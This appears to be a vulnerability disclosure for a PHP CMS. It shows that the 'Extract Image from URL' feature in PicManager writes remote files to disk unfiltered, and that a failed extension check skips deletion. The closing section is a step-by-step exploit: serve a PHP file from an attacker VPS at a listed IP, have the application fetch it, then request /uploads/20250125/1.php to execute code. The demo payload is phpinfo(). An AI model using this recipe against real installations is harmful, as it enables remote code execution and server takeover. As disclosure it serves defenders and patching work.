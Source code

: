 ### Remote File Download to RCE

In the "Company Profile" section, add an image -> choose "Extract Image from URL" and input the VPS file address for download:
```r
http://124.220.37.173:8999/1.php
```
![](./public/4.png)

The controller path is `app\admin\controller\PicManager.php` which calls the `getImg` function:
```php
elseif ($type == "extract") {
    $groupId = 0;
    $url = $param["extractUrl"];
    $result = $this->getImg($url);
    if ($result["code"] == 0) {
        return $result;
    }
    $result = [
        "total" => 0,
        "currentPage" => 0,
        "pageSize" => 0,
        "imgList" => 0,
        "groupId" => $groupId,
        "groupList" => $groupList,
        "type" => $type,
        "handle" => $handle,
        "startDate" => $startDate,
        "endDate" => $endDate,
        "extractedUrl" => $result["file"],
        "id" => $result["id"]
    ];
```

In `getImg`, the `download` method and the `upload` method are called in sequence:
```php
private function getImg($url = "", $filename = "")
{
    $imageUtil = new ImageUtil();
    $fileName = $imageUtil->download($url, $filename); // Full local file path
    if (empty($fileName)) {
        return ['code' => 0, 'msg' => "Failed to fetch file"];
    }
    $file = new File($fileName);
    $result = $imageUtil->upload($file);
    if ($result['code'] == 1) {
        unlink($fileName);
        return $result;
    } else {
        return ['code' => 0, 'msg' => "Upload failed"];
    }
}
```
In `download`, the `url` is fully controllable and will call the `get_url_content` method to download the file:
```php
public function download($url = "", $filename = "", $path = "")
{
    $filePath = config('filesystem.disks.folder') . DIRECTORY_SEPARATOR . date("Ymd");
    if (!empty($path)) {
        $filePath = $path;
    }
    if (!is_dir($filePath)) {
        tp_mkdir($filePath);
    }
    if (empty($filename)) {
        // Upload to local server
        $filename = basename($url);
    }
    $filename = $filePath . DIRECTORY_SEPARATOR . $filename;
    $content = get_url_content($url);
    file_put_contents($filename, $content);
    return $filename;
}
```
In `download`, the filename is obtained from the URL request, and there is no filtering, so a PHP file can be downloaded, and the file is directly written using `file_put_contents`.

As shown in the debugging output, the content of the file is the remote file's content, and the written file is `1.php`.
![](./public/1.png)


However, when attempting to upload, the WAF checks the file extension. Since it is a PHP file, the WAF blocks it, and it returns `code=0`:
![](./public/2.png)


```php
public function upload($file, $groupId = 0, $fileType = "image", $app = 1, $folder_name = "files", $upload_type = 0)
{
    // Record file in the database
    $OriginalName = "";
    if (method_exists($file, "getOriginalName")) { // Check if method exists
        $OriginalName = $file->getOriginalName();
    } else {
        $OriginalName = $file->getFilename();
    }

    // File extension
    if (method_exists($file, "getOriginalExtension")) {
        $imageType = $file->getOriginalExtension();
    } else {
        $imageType = $file->getExtension();
    }

    if (!$this->validationSuffix($imageType)) { // Validate image type
        return ['code' => 0, 'msg' => 'Please upload a ' . $this->attachment['i_suffixs'] . ' format file', "originalName" => $OriginalName];
    }
}
```

Eventually, `code=0` is returned, and `unlink` is bypassed, so the file is not deleted:
![](./public/3.png)


### Exploit Attack

Start the VPS with a port service:
```r
python3 -m http.server 8999
```
Place the malicious `1.php` file on the VPS:
```php
<?php
phpinfo();
```

Then, in the "Company Profile" section, add an image -> choose "Extract Image from URL", and input the VPS file address for download:
```r
http://124.220.37.173:8999/1.php
```
![](./public/4.png)


Finally, access the path, and the PHP code will be successfully parsed:
```r
/uploads/20250125/1.php
```
![](./public/5.png)
